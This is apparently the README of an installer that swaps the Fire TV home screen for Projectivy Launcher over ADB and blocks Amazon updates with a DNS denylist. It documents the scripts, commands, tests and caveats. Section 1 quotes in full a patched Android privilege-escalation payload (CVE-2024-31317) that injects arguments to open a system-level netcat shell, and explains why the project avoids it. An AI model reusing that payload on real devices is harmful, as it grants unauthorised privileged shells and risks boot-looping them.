

# Projectivy Launcher installer - Amazon Fire TV Stick (no root)

[](https://github.com/Absolute-Projects-Public/projectivy-installer/releases/latest)
[](LICENSE)

Replaces the ad-filled Amazon Fire TV home screen with **Projectivy Launcher** on a Fire TV Stick or
Cube running Fire OS 7 or 8, and optionally stops Amazon pushing the update that would revert it.



Nothing here needs root. Nothing here uses the `hidden_api_blacklist_exemptions` system-user exploit -
that was patched by Amazon in October 2025 and can boot-loop a device.

## Install it

### Windows

1. Download **[the latest release](https://github.com/Absolute-Projects-Public/projectivy-installer/releases/latest)**
   (the `.zip` asset), or click the green **Code** button above and choose **Download ZIP**.
2. Unzip it somewhere simple, like your Desktop.
3. Double-click `Install-Projectivy.cmd`.
4. Follow the prompts. It tells you what to do on the TV at each step, and it can put Projectivy on the
   stick over your network, so you never have to type anything with the remote.

If Windows shows "Windows protected your PC", click **More info** then **Run anyway**. That warning
appears because the script is not code-signed, not because there is anything wrong with it.

A log of every run is saved in the `logs` folder next to the script.

### Linux and macOS

Copy and paste these one block at a time, into a terminal:

```bash
# 1. Get the files. No git installed? Download the release zip instead:
#    https://github.com/Absolute-Projects-Public/projectivy-installer/releases/latest
git clone https://github.com/Absolute-Projects-Public/projectivy-installer.git
cd projectivy-installer

# 2. Make the scripts runnable.
chmod +x Install-Projectivy.sh setup-firestick.sh add-to-app-menu.sh

# 3. Run the setup wizard.
./Install-Projectivy.sh
```

If you would rather click than type, run `./add-to-app-menu.sh` once. It adds **Projectivy Launcher
setup** to your applications menu, plus a shortcut on your Desktop if you have one, and then you can
just click that whenever you need to re-run it.

### If something goes wrong

Run it again with `--debug` and it will write a full log (every command, every answer, every result) to
the `logs` folder. That log is the thing to send if you need help:

```bash
./Install-Projectivy.sh --debug
```

To put the stick back exactly how it was, run `./Install-Projectivy.sh --undo`, or use the **Undo**
button in the wizard. It leaves the apps installed and restores Amazon's home screen.

### Running it without prompts

For repeat jobs the command line versions skip all the questions:

```bash
./setup-firestick.sh -i 192.168.1.100 -p -w                 # install Projectivy, then verify
./setup-firestick.sh -i 192.168.1.100 -d abcd1234.dns.nextdns.io   # ...and block Amazon's updates
```
```powershell
.\setup-firestick.ps1 -FireTvIp 192.168.1.100 -InstallProjectivy -WarmUp
```

Run either with `-h` / `--help` for the full list of options.

### What you need

1. The stick on the same network as the computer you run this from.
2. On the TV: **Settings > My Fire TV > About > click the device name 7 times**, then back out to
   **Developer Options** and turn on **ADB debugging** and **Apps from Unknown Sources**.
3. The remote, for the two things no script can do for you: approving the ADB prompt on the TV, and
   switching on Projectivy's own "Override current launcher" setting (about 20 seconds).
4. Permission to unplug the stick for 30 seconds during the reboot test.

**Not supported:** devices running **Vega OS** (Fire TV Stick 4K Select, Fire TV Stick HD). They cannot
sideload apps at all. The scripts detect this and refuse to continue. Fire OS 6 and older will not work
either.

**Status:** working, verified live on 2026-09-26 against a Fire TV Stick 4K Max: Projectivy as the home
screen, no ads, Home button redirected, and the settings survived a full power cycle.

## What's in this folder

- `Install-Projectivy.cmd` - **double-click this** on Windows. Launches the wizard below; no command line, no admin, bypasses the execution policy for that one script.
- `Install-Projectivy.ps1` - the Windows click-through wizard (what the .cmd runs). Guides a non-technical user through it, with pop-up instructions for each step on the TV.
- `Install-Projectivy.sh` - the **same wizard for Linux and macOS**, text-based, no GUI dependencies.
- `Install-Projectivy.desktop` - double-click launcher for `Install-Projectivy.sh` (needs `chmod +x` on both, see §8).
- `setup-firestick.ps1` - Windows, non-interactive CLI equivalent.
- `setup-firestick.sh` - Linux/macOS equivalent.
- `tests/` - the regression suite. `./tests/run-paths.sh` runs 54 checks against a fake adb, so it needs
  no Fire TV at all.
- `docs/` - the two published images and `make-images.py`, which draws both of them from a real captured
  session.

The two `setup-firestick` scripts are the one-shot versions for repeat jobs. Each will: find or download
platform-tools, connect over ADB, confirm Projectivy is present (installing it if asked with `-p` /
`-InstallProjectivy`), apply the permission and accessibility settings, and verify the result.
`-WithHomeOnFire` adds the fallback redirector for newer Fire OS builds, and `-Uninstall` reverts
everything.

---

## 1. Why the old method no longer applies

The method widely documented through 2025 - **Launcher Manager "System User Edition"** plus a
one-paste ADB command:

```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
10
--runtime-args
--setuid=1000
--setgid=1000
--runtime-flags=2049
--mount-external-full
--setgroups=3003
--nice-name=runnetcat
--seinfo=platform:targetSdkVersion=28:complete
--invoke-with
toybox nc -s 127.0.0.1 -p 4321 -L /system/bin/sh -l;
"
settings delete global hidden_api_blacklist_exemptions
sleep 2
toybox nc localhost 4321
```

...which gave temporary **system user** rights, enough to run `pm disable com.amazon.tv.launcher`. That
method is now:

- **patched.** The XDA thread header says it verbatim: *"DOES NOT work with FireTV FireOS7 PS7706 or newer
  firmware, or FireOS8 RS8153 or newer firmware... This exploit was patched for FireTVs in early
  October 2025."* (CVE-2024-31317.)
- **dangerous** - AFTVnews: getting the `settings delete global hidden_api_blacklist_exemptions` step
  wrong puts the device in an unrecoverable **boot loop**.
- **impossible anyway**: `pm disable com.amazon.tv.launcher` now raises
  `SecurityException: protected package`. Amazon's launcher stays running (~110 MB RAM) regardless.

So: **do not chase the shell command from the old guides.** A stick bought or factory-reset today is
already past the patch.

## 2. What actually works (2026)

Two moving parts, and the second is only needed on newer builds:

| Part | Package | Role |
|---|---|---|
| **Projectivy Launcher** v4.71 (13 Jul 2026) | `com.spocky.projengmenu` | The launcher itself - no ads, custom rows |
| **Home on Fire** v1.5.2 (22 Sep 2026) | `io.github.toolicious.homeonfire` | Fallback: accessibility service that redirects the Home button; has launch-on-boot |

Four things are true at once and it matters which you rely on:

1. **Projectivy can't be set as default home** - `cmd package set-home-activity` returns `Success`
   but Amazon's resolver still wins; the HOME intent-filter priority cap (API 28) blocks the other route.
2. **Projectivy's accessibility service + `Override current launcher` toggle works on the builds we
   tested** - this was enough on 2026-09-26, including across a full 30-second power-down.
3. **It is not guaranteed on the newest Fire OS 8.x** - a May 2026 test on Fire OS 8.1.6.6 found the
   accessibility/logcat hooks silent and needed a Projectivy-native toggle; Home on Fire's own README
   (tested to 8.1.8.2) states the Home key always returns to Amazon and needs a redirect rather than
   an override. **If block 1 does not survive a cold boot, use block 2. Do not fight it.**
4. **Vega OS is a hard stop.** Fire TV Stick 4K Select (Oct 2025) and Fire TV Stick HD (Apr 2026) run
   Vega OS - Linux/React Native, not Android. No sideloading, no APKs, no custom launcher. Check
   Settings → My Fire TV → About before promising anyone anything.

## 3. Getting the apps onto the stick

**Best option: let the script do it.** Every script here can download and install Projectivy itself with
`adb install -r` (`-InstallProjectivy` on Windows, `-p` on Linux/macOS, or the "Install Projectivy for me
over ADB" choice in either wizard). The APK is fetched from the official GitHub release, so there is
nothing to type on the TV at all. This is the least error-prone path for a non-technical owner.

Manual route: **Downloader** (AFTVnews) from the Amazon Appstore. Its address bar takes either a long URL
or a short numeric code - type the code in the address bar, or tap the `#` button for a number pad. These
resolved and were checked as of **Sep 2026**:

| Code | Points at | Notes |
|---|---|---|
| `1198422` | Projectivy Launcher APK | the direct one - what you want if you just need Projectivy |
| `250931` | TROYPOINT Toolbox | one menu with Projectivy, Launcher Manager and other tools |
| `730116` | FireStickHacks downloads page | Projectivy, Wolf Launcher, Launcher Manager Mini |
| `2571389` | Simturax app centre | Projectivy, plus its own guides |

Codes are AFTVnews shortener entries (`aftv.news/<code>`) that anyone can retire or repoint, so they rot.
The long addresses below are stable and always the fallback:

```
https://github.com/spocky/miproja1/releases/download/4.71/ProjectivyLauncher-4.71-c95-xda-release.apk
https://github.com/toolicious/home-on-fire/releases/latest/download/home-on-fire.apk
```

Neither download needs a third party in the middle when the script does it: the APK comes straight from
the Projectivy author's GitHub release and is installed by ADB.

Prerequisites on the stick: **Settings → My Fire TV → About → click the device name 7×** → Developer
Options → **ADB debugging ON** + **Apps from Unknown Sources ON**.

## 4. The commands that work

Run from the platform-tools folder. `.\adb` in PowerShell, `./adb` on POSIX.

```
adb connect <fire-tv-ip>:5555          # first attempt may report "failed to authenticate" - harmless,
adb devices                            # it races the on-screen prompt. Confirm on the TV, re-run.
adb shell pm list packages | grep projengmenu
```

**Block 1 - Projectivy's own hook**

```
adb shell appops set com.spocky.projengmenu SYSTEM_ALERT_WINDOW allow
adb shell dumpsys deviceidle whitelist +com.spocky.projengmenu
adb shell settings put secure enabled_accessibility_services com.spocky.projengmenu/com.spocky.projengmenu.services.ProjectivyAccessibilityService
adb shell settings get secure enabled_accessibility_services
```

Then on the TV: Projectivy → Settings → General → **Override current launcher** ON.

**Block 2 - only if Home still returns to Amazon (newer Fire OS 8)**

```
adb install home-on-fire.apk
adb shell pm grant io.github.toolicious.homeonfire android.permission.WRITE_SECURE_SETTINGS
adb shell am start -n io.github.toolicious.homeonfire/.MainActivity
```

The `WRITE_SECURE_SETTINGS` grant is required because Fire OS hides/blanks Settings → Accessibility on
most builds - it lets the app flip its own service on. One-shot, persists across reboots.
Then: Accessibility service ON, **Choose target app...** → Projectivy, launch-on-boot ON, and
**turn Projectivy's `Override current launcher` back OFF** - the two hooks conflict.

**Verification / recovery**

```
adb shell settings get secure enabled_accessibility_services          # must still list the hook after a cold boot
adb shell dumpsys window | Select-String mCurrentFocus                # com.spocky.projengmenu = win
adb shell settings put secure enabled_accessibility_services ""       # revert to stock home
adb shell am start -n com.amazon.tv.launcher/.ui.HomeActivity_vNext   # or just long-press Home
```

`mCurrentFocus` only reports what is on screen **at that moment** - run it immediately after boot, or
straight after pressing Home out of another app. Long-press Home is the escape hatch to Amazon settings
on the Home on Fire setup.

## 5. Live run log - 2026-09-26

A Windows laptop (`C:\Users\<user>`), stick at `192.168.1.100`.

```
PS> .\adb connect 192.168.1.100:5555
failed to authenticate to 192.168.1.100:5555
PS> .\adb devices
192.168.1.100:5555      device
PS> .\adb shell pm list packages | Select-String projengmenu
package:com.spocky.projengmenu
PS> .\adb shell dumpsys deviceidle whitelist +com.spocky.projengmenu
Added: com.spocky.projengmenu
PS> .\adb shell settings get secure enabled_accessibility_services
com.spocky.projengmenu/com.spocky.projengmenu.services.ProjectivyAccessibilityService
```

Projectivy was installed beforehand via Downloader (user-side). All four commands applied clean, then
**"all working perfectly"** after a full 30-second power-down - block 1 was sufficient, block 2 not needed.

## 6. Stopping Amazon's updates - DNS, set over ADB

The old exploit could permanently disable the OTA packages. That's gone:
`com.amazon.device.software.ota` is on Amazon's protected list (`pm disable-user` → `Cannot disable a
protected package`, `pm uninstall` → `DELETE_FAILED_INTERNAL_ERROR`), so **the update client keeps
running**. DNS is the only enforcement point left, and it works on the device: Fire OS hides the
Private DNS menu, but the Android resolver underneath still honours the setting.

```
adb shell settings put global private_dns_mode hostname
adb shell settings put global private_dns_specifier abcd1234.dns.nextdns.io
adb shell settings get global private_dns_mode
adb shell settings get global private_dns_specifier
```

Three things matter here:

1. **It has to be a resolver with a custom denylist.** AdGuard DNS (the usual "block the ads" answer)
   does *not* block Amazon's update servers. A free NextDNS profile (300,000 queries/month) with these
   on its denylist does:

   ```
   softwareupdates.amazon.com
   updates.amazon.com
   prod.ota-cloudfront.net
   d1s31zyz7dcc2d.cloudfront.net
   d1s31zyz7dcc2d.cloudfront.prod.ota-cloudfront.net
   amzdigital-a.akamaihd.net
   amzdigitaldownloads.edgesuite.net
   ```

   `softwareupdates.amazon.com` is the address the stick asks for updates; the cloudfront/akamai hosts
   are where the payload actually comes from - blocking only the first one is a common mistake.
2. **The hostname must be a name, not an IP**, and it must have a valid TLS certificate - Private DNS is
   DNS-over-TLS, so a numeric resolver address or a bad certificate silently falls back to normal DNS.
   This is per-profile, so each stick can have its own profile.
3. **It survives a VPN tunnel** (`dumpsys connectivity` reports `UsePrivateDns: true` on both `wlan0`
   and `tun0`), which matters if the stick ever runs through one.

Verify from the ADB shell - `ping` landing on `0.0.0.0` (NextDNS's block response) is the pass condition:

```
adb shell ping -c 1 -w 3 softwareupdates.amazon.com
# PING softwareupdates.amazon.com (0.0.0.0)  -> blocked
# 64 bytes from <a real IP>                  -> NOT blocked, check the denylist
```

NextDNS answers blocked names with `0.0.0.0` rather than NXDOMAIN, so a resolver-level test is
`0.0.0.0` = good, a routable IP = bad. `setup-firestick.sh -i <ip> -l` prints the domain list; test the
profile independently with any DoT client:

```
kdig +tls @<profile>.dns.nextdns.io softwareupdates.amazon.com
```

Or on the TV: Settings → My Fire TV → check for updates should fail with a connection error.

Revert with `settings put global private_dns_mode off` + `settings delete global private_dns_specifier`
(the scripts' `-O` / `Undo` does this). A plain-DNS fallback, `settings put global dns_servers
"94.140.14.14,94.140.14.15"`, exists in the scripts if Private DNS is refused - but it is unencrypted and
can't be per-domain, so treat it as ad-blocking only.

**Caveats to pass on to whoever owns the stick:** this is tied to the NextDNS account (delete it or blow
the free query limit and updates resume); `com.amazon.adep` still can't be disabled, so a future
launcher blacklisting can't be prevented; and Amazon has reset these hooks on update before. Treat the
setup as "works until the next forced update". Prefer delivering media via **Plex on the LAN** so the
stick never needs Amazon's store in the first place - that's also what the demo used.

Router/DNS blocking still works too, but it needs someone who can log into the router, which is exactly
the friction this ADB route removes.

### The option menu in the scripts

| Option | Account | Blocks Amazon's updates? | Use when |
|---|---|---|---|
| **NextDNS profile** | free account | **yes** | the default choice |
| Cloudflare | none | no | fast/private DNS, ad-free browsing not the goal |
| AdGuard | none | no | ad and tracker blocking wanted |
| Skip | - | no | DNS stays on the network default |

Cloudflare's DoT endpoint is `1dot1dot1dot1.cloudflare-dns.com` (plain fallback `1.1.1.1,1.0.0.1`);
AdGuard's is `dns.adguard-dns.com` (plain `94.140.14.14,94.140.14.15`). Both are applied the same way,
and the scripts deliberately label them as *not* blocking updates so nobody assumes otherwise.

### The two warnings that go with it

1. **Streaming apps first, before anything else.** If Netflix, Plex or iPlayer misbehaves after the DNS
   step, reverse the DNS setting and test again before touching the launcher. It's the newest change and
   the most likely cause, and it's one command to reverse (`-O`, the Undo button, or "remove the DNS
   setting"). This is in the DNS stage text, in the post-DNS screen, and in the CLI closing notes.
2. **Updates can clear the auto-boot settings - re-run, don't reinstall.** If the stick ever comes back to
   Amazon's home screen, the fix is to run the installer again. The apps are still installed, so it's a
   30-second job. This is stated on the finish screen of both wizards and in the CLI notes, because it's
   the single most likely support call.

## 7. The Windows click-through wizard (`Install-Projectivy.cmd`)

Built for handing the job to someone who will not open a terminal - a parent, a client, a mate. One
double-click, one window, and every step it can't do for you is a written instruction plus a single
button. Design rules it follows:

- **Stage 0, welcome** - what is about to happen, what's needed, and how long it takes, before anything runs.
- **Stage 1, prepare the stick** - plain-language list: developer mode, ADB debugging, unknown sources,
  install Downloader, then either let the wizard install Projectivy for them or use the short codes
  (`1198422` direct, `250931` Toolbox, `730116` FireStickHacks, `2571389` Simturax). The URL is printed in
  full as the always-works fallback.
- **Stage 2, connect** - manual IP entry with the path to find it, plus a **Scan my network** button that
  sweeps the local /24 for anything listening on port 5555.
- **Stage 3, authorise** - the "LOOK AT THE TV NOW / press Allow" text is displayed *before* the wait
  begins, with a per-second progress counter in the log, so it never looks like a freeze. Retry loops.
- **Stage 4, apply** - refuses to continue on Vega OS; if Projectivy is missing it offers to install it
  over ADB (or hands over the Downloader codes), then verifies the package landed before continuing.
- **Stage 5, the 30-second power-down** - the cold-boot test as its own prompt: unplug, wait 30 seconds,
  plug in, wait for boot, press Continue. This is deliberately unskippable; it's where weak setups fail.
- **Stage 5b, fallback** - on failure, offers Home on Fire with its three on-TV instructions and re-checks.
- **Stage 6, DNS** - offers four buttons: **NextDNS** (recommended, take the profile's DoT hostname in a
  text box), **Cloudflare** (no account, blocks nothing), **AdGuard** (ads only), **Skip**. It prints the
  seven domains for the denylist, applies what was chosen, tests whether `softwareupdates.amazon.com`
  still resolves, and reports plainly whichever way it went. §6 has the detail.
- **Done / Undo** - Undo is on the welcome screen and the finish screen; it restores Amazon's launcher
  without uninstalling anything. The Windows wizard also writes a log file **every run**
  (`logs\install-projectivy-<timestamp>.log` beside the script) and names it in the log pane - the Linux
  one takes `--debug` for the same thing.

Wizard-specific notes: `-UseBasicParsing` and an explicit TLS 1.2 setting are required because Windows
PowerShell 5.1 otherwise fails GitHub downloads (old IE engine, TLS 1.0 default). The window is
`TopMost` so it stays visible while the user is pressing buttons on the TV.

## 8. The Linux / macOS wizard

`Install-Projectivy.sh` is the same staged wizard as the Windows one, written as a plain terminal UI so
it carries **no GUI dependency at all** (no zenity, no kdialog, no python) and works over SSH. Same
stages, same wording, same 30-second power-down gate, same fallback, plus `--undo` and `--ota-list`.

### Keeping the screen readable

Three rules, all aimed at someone who is not a sysadmin:

- **Every option is numbered**, `1:` through `n:`, whether the menu is the arrow-key kind or the typed
  kind. Someone who wants to type `2` can see which item that is instead of guessing.
- **The screen is cleared between steps** (`\033[2J\033[3J\033[H`, written straight to `/dev/tty` so it
  still works when stdout is being logged). Step 1's wall of text is gone by the time step 2 starts.
  `--no-clear` keeps the scrollback instead, which is what you want when debugging.
- **Long instruction screens were split up.** The Downloader codes moved onto their own screen, reached
  only by the path that needs them, instead of being dumped in step 1.

### Debug log: `--debug`

```
./Install-Projectivy.sh --debug
```

Writes `logs/install-projectivy-<timestamp>.log` next to the script (falling back to
`~/.local/state/install-projectivy/logs`, then `$TMPDIR`) containing:

- a header: date, host, kernel, user, `$HOME`, args, bash version, APK payload URL
- `[SELECT]` for every menu choice, with the number and the full text
- `[INPUT]` for every typed answer (IP address, DNS hostname, yes/no replies)
- `[ADB-REQ]` / `[ADB-OUT]` for every adb command and its output
- `[STAGE]`, `[CONNECT]`, `[INSTALL]`, `[DNS]`, `[VERIFY]`, `[SCAN]`, `[END]` for the flow and results
- **everything printed on screen as well**, ANSI escapes stripped so it is readable

Two implementation details are load-bearing:

1. **Terminal detection happens before redirection.** Debug mode redirects stdout, after which `[ -t 1 ]`
   is false - so the script captures `TTY_IN`/`TTY_OUT` first. Get this wrong and debug mode silently swaps
   the arrow-key menus and colours for the piped fallback.
2. **Clear-screen writes to `/dev/tty`**, not stdout, so the clear doesn't end up in the log file.
3. **The log pipeline is `tee` and nothing else.** This one cost a live bug report: *"debug clears the
   terminal and nothing shows until Ctrl+C"*. With `sed` in the pipeline (`sed ... | tee`) the filter's
   stdout is a pipe rather than a terminal, so it block-buffers - the user gets an empty screen until the
   buffer fills or the process exits. A line-flushing `awk ... fflush()` variant failed even harder (dead on
   arrival). `tee` alone writes through immediately, and the ANSI escapes are stripped from the finished
   log once at exit by `strip_ansi_from_log`. Regression test: `tests/run-paths.sh` **Path H**, which
   checks the redirect line has no filter *and* runs the wizard under a real pty looking for its own text.

The Windows wizard writes its log **always**, no flag: `logs\install-projectivy-<timestamp>.log` beside
the script, opened at startup and named in the log pane. When someone rings up about a failed stick,
"send me the log" is the only practical support route, and a flag they didn't pass is no use. The
non-interactive CLIs take `--debug` (bash) and `-Log` (PowerShell, via `Start-Transcript`).

Where the Windows wizard uses buttons, this one uses real menus: **arrow keys** to move and Enter to pick,
or the item's number, or Enter alone to take the default. If it isn't attached to a terminal (piped input,
a script, a cron job) it falls back to numbered text input. Menu items are the ones a support call needs:
*Enter Firestick IP Manually* / *Scan Network for Firestick* / *Use the last address: 192.168.1.100* /
*Exit Setup*, and after a scan, *Select 192.168.1.100 from scan result* - one item per device found, plus
rescan or manual entry.

Input handling rules worth keeping: a blank answer at a prompt goes **back to the menu**, it never exits -
and if input runs out entirely (piped input ending, or Ctrl-D), the wizard stops with *"Input ended -
stopping. Nothing further was changed"* rather than silently reporting success. A wrong-looking IP is
rejected and re-asked. And because a dead address can take minutes to time out at the TCP layer, both the
port probe and `adb connect` are wrapped in `timeout`, and the polling window shortens when the port
probe already failed - a blackholed address used to take 172 seconds to come back, now about 20.

### Launching it

Three ways, in order of reliability:

```
./add-to-app-menu.sh        # once: adds a menu entry (and a desktop icon if you have one)
./Install-Projectivy.sh     # or just run it directly
```

`add-to-app-menu.sh` writes `~/.local/share/applications/install-projectivy.desktop` with the absolute
path baked in, copies it to `~/Desktop` if that folder exists, and marks it trusted via `gio` where
available. Look for **Projectivy Launcher setup** in the applications menu afterwards. Undo by deleting
that one file.

The portable `Install-Projectivy.desktop` in this folder is the same thing without the absolute paths:

```
Exec=bash -c 'cd "$(dirname "%k")"; bash ./Install-Projectivy.sh; printf "\nPress Enter to close. "; read -r _ || true'
Terminal=true
```

Design notes that matter, all of them from testing rather than theory:

- **`bash ./Install-Projectivy.sh`, not `./Install-Projectivy.sh`.** Executing the script directly needs
  its executable bit set, and a file that arrives by download or from a zip may not have it. Going through
  `bash` only needs read permission.
- **`%k` is the .desktop file's own path**, substituted by the desktop environment, which makes the entry
  work wherever the folder ends up - including a path with spaces (verified). That's also why it needs
  quoting as `"$(dirname "%k")"`.
- **`Terminal=true`** hands the terminal window to whatever emulator the desktop uses, so there's no
  dependency on `x-terminal-emulator`, konsole or gnome-terminal by name.
- **The trailing `read` keeps the window open** after the wizard exits, otherwise the final message
  vanishes with the terminal. It's `read -r _ || true` so the wrapper still exits 0.
- Some file managers refuse to launch a .desktop that hasn't been marked trusted - right-click → *Allow
  Launching*, or just use `add-to-app-menu.sh` and skip the problem.

The desktop file is light because the wizard has to be runnable without a desktop at all: if the
double-click route doesn't work on a given distro, the terminal command always does.

## 9. What is automated, and what cannot be

| Step | Automated? |
|---|---|
| Installing Projectivy (download + `adb install`) | **yes** |
| Overlay + battery-whitelist + accessibility service for Projectivy | **yes** |
| Enabling the accessibility service for Home on Fire (`WRITE_SECURE_SETTINGS`) | **yes** |
| Launching an app on the TV to save the owner hunting through menus | **yes** (`am start`) |
| DNS profile (NextDNS / Cloudflare / AdGuard) | **yes** |
| Making Amazon's launcher unreachable (`pm disable com.amazon.tv.launcher`) | **no** - protected package |
| **Projectivy's "Override current launcher" toggle** | **no** - and not for lack of trying |

That last one is worth explaining, because it looks automatable and isn't. "Override current launcher" is
a preference inside Projectivy's own app storage (`/data/data/com.spocky.projengmenu/shared_prefs/`).
Reading or writing it needs root, or `run-as`, which only works on debuggable apps - Projectivy is a
release build. There is no broadcast, intent or secure-settings key that flips it, and the setting is not
mirrored into `settings get secure`. Driving the UI blind with `input keyevent` would depend on the remote's
focus order on a screen nobody can see, breaking the moment Projectivy reorders its menu.

So it stays a documented 20-second manual step, spelled out in both wizards and labelled as the one thing
that needs the remote. The accessibility service that does the actual work *is* automated; the toggle is
what tells Projectivy to use it.

(A side note for anyone tempted by the shortcut: `settings put secure enabled_accessibility_services` is
the piece that gets the service running, and that *is* set by the scripts. The toggle is Projectivy's own
choice about whether to intercept the Home key. Both are needed on Fire OS 8.)

## 10. Notes for anyone editing the scripts

### Testing without a Fire TV

```
./tests/run-paths.sh        # 54 assertions across 13 wizard paths, no adb or device needed
```

`tests/mock-adb` fakes just enough of ADB (devices, connect, install, the specific `settings`/`getprop`/
`dumpsys` reads the wizard makes) and `run-paths.sh` runs the real wizard against it with the network
scan stubbed to return one device, driving each path with piped menu answers. It covers the paths that
have actually broken: install chosen up front vs. deferred to a scan, "already installed" when it is and
when it isn't, and a blank IP answer that must not end the run.

Writing that harness paid for itself immediately - it caught two bugs that no amount of reading the code
would have:

- **A decision that isn't carried.** The install menu's third option ("scan first") routed straight to the
  scanner without recording that the install question was still unanswered, so the answer was silently
  dropped. Rule: if a branch defers a question, record that it is still unanswered, and ask it on the other
  side.
- **adb resolved in the wrong place.** `resolve_adb` only ran inside the connect *menu*, and the new
  scan-first route bypassed that menu entirely - so the wizard reached the connect stage with an empty
  `$ADB` and failed with no explanation. Rule: each stage that needs adb calls `ensure_adb`, never assume
  an earlier stage set it.

### Other traps

- **Never print diagnostics to stdout from a function whose stdout is captured.** `ADB="$(resolve_adb)"`
  swallows everything the function writes to stdout, so a failure message inside it vanishes and the
  caller just gets a bad path with no explanation. Every message in `resolve_adb` goes to `>&2`; only the
  final path is echoed to stdout. This bug made the first Linux test run fail silently.
- `unzip` is not guaranteed to exist. The shell scripts fall back to `python3 -m zipfile` and then
  `bsdtar`, and report clearly if none of the three is available.
- Windows: `.\adb` prefix; CMD tolerates bare `adb`, PowerShell does not. `Expand-Archive` handles the
  platform-tools zip; expect one Windows Firewall prompt for adb.
- Fire OS 7 shows a **loading animation and up to 5 s delay** on Home (the system "app-switch lock");
  Fire OS 8 is instant but flashes Amazon's home for ~250 ms. Neither is a fault.
- Map a spare colour/number/media key to the launcher to bypass the Home path entirely - instant, no flash.
- Branch on `adb shell getprop ro.build.version.name` / `ro.build.version.fireos` early and refuse to
  continue on Vega OS.
- Always leave the long-press-Home escape route reachable, and never disable `com.amazon.tv.launcher`
  even if a future method allows it - Settings access goes with it.

## Sources

- Projectivy Launcher - <https://github.com/spocky/miproja1> · <https://www.projectivy.app/>
- Home on Fire - <https://github.com/toolicious/home-on-fire>
- XDA system-user exploit thread (now documenting the patch + alternatives)
  <https://xdaforums.com/t/system-user-fire-cube-stick-tv-tablet-ps7704-fireos7-rs8149-fireos8.4759215/>
- AFTVnews on the exploit and its patch - <https://www.aftvnews.com/amazon-patches-fire-tv-exploit/>
- TROYPOINT Projectivy guide (Downloader codes) - <https://troypoint.com/projectivy-launcher/>

## Credits and disclaimers

This project installs third-party applications but does not distribute them. Projectivy Launcher is the
work of its own author, Home on Fire of its own; both are downloaded from their official release pages at
install time. Nothing here is affiliated with Amazon, Projectivy or Home on Fire.

Licensed under the MIT licence (see `LICENSE`).

## AI Disclosure

Development here is AI-assisted: an agent (Hermes, by Nous Research, driving models through
OpenRouter — the model varies by task) does much of the diagnosis, research, implementation,
documentation and release tooling. The maintainer reviews every change and owns it.

That comes with the rule this project is built on: **a change ships only if it can be verified on
real hardware.** The wizards are exercised end to end on an actual Fire TV, a cold boot included,
because the failure modes here (a launcher that will not come up, an update that reverts the whole
thing) do not show up anywhere else.

Contributions: AI-assisted work is welcome if you understand it and can explain the change, and if
it comes with evidence — a reproduction, a test, or a reason. We will not accept fully-vibecoded
contributions, where nobody can account for the code, because the risk of regression is too high.